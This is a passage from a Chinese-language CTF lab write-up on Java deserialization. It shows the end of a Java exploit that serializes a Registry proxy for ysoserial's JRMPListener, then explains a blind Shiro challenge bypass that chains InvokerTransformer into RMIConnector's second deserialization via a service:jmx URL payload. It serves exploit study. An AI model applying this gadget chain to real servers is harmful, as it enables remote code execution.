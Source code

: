 ```java
 Registry proxy = (Registry) Proxy.newProxyInstance(Exp3.class.getClassLoader(), new Class[]{  
 Registry.class  
 }, obj);  
  
 ByteArrayOutputStream barr = new ByteArrayOutputStream();  
 ObjectOutputStream oos = new ObjectOutputStream(barr);  
 oos.writeUTF("SJTU");  
 oos.writeInt(1896);  
 oos.writeObject(proxy);  
 oos.close();  
  
 System.out.println(Utils.bytesTohexString(barr.toByteArray()));  
 }  
}
```
本地再使用ysoserial启动JRMPListener:
![](https://tuchuang-1300339532.cos.ap-chengdu.myqcloud.com/img/20220331144145.png)

![](https://tuchuang-1300339532.cos.ap-chengdu.myqcloud.com/img/20220331144157.png)


## lab4-shiro-blind
这道题与第三题题目完全一样，但是在docker层设置了不能出网，也就是说我们要在不能出网的情况下利用其自定义的InputStream(不能反序列化数组)来实现任意代码执行。

这时候我们的目光就要回到CC链，在CC链中我们的sink(终点)实际上只有2个，一个是利用`TemplatesImpl`类实现任意java代码执行，一个是利用`ChainedTransformer`类链式调用实现任意命令执行，但是这两者在这道题都没办法使用，前者使用了`byte[][]`，而后者则使用了`Transforme[]`。

我们再把目光往前看，假如无法使用`ChainedTransformer`类实现链式调用，实际上我们还可以使用其中的任意一个`Transformer`类，这里我们将目光放到`InvokerTransformer`类，其可以调用任意实例的任意方法。

但是我们发现`InvokerTransformer`类的第二，第三个参数都是一个数组，分别对应方法的参数类型和参数值，由于我们无法反序列化数组，所以第二，第三个参数必须为null，换句话说我们只能调用一个任意实例的无参数方法。

现在我们再来思考解题，在第三题中，我们提到了二次反序列化的概念，在不使用JNDI的情况下，是否存在一个类(且需要利用到的属性中不存在数组)，存在一个无参数的方法，最终能够实现二次反序列化呢？

经过一番查找之后，我们找到了`javax.management.remote.rmi.RMIConnector`这个类，其`findRMIServerJRMP`方法如下，可以看到这个方法将传入的字符串base64解码后二次反序列化，非常符合我们的要求:
![](https://tuchuang-1300339532.cos.ap-chengdu.myqcloud.com/img/20220403101248.png)

通过find usage的功能，我们找到了其利用链:
```
connect() -->
	connect(Map environment) -->
		findRMIServer() -->
			findRMIServerJRMP() --> readObject()
```

利用链中的关键代码如下，`findRMIServer`方法传入了一个`JMXSrviceURL`，并且判断url的path是否以`/stub/`开头:
![](https://tuchuang-1300339532.cos.ap-chengdu.myqcloud.com/img/20220403101841.png)

通过查询资料发现，`JXMServiceURL`符合`service:jmx:protocol:sap`这个规范，我们只需要构造这样一个URL即可：
```
service:jmx:(iiop|rmi)://127.0.0.1:23333/stub/{$payload}
```
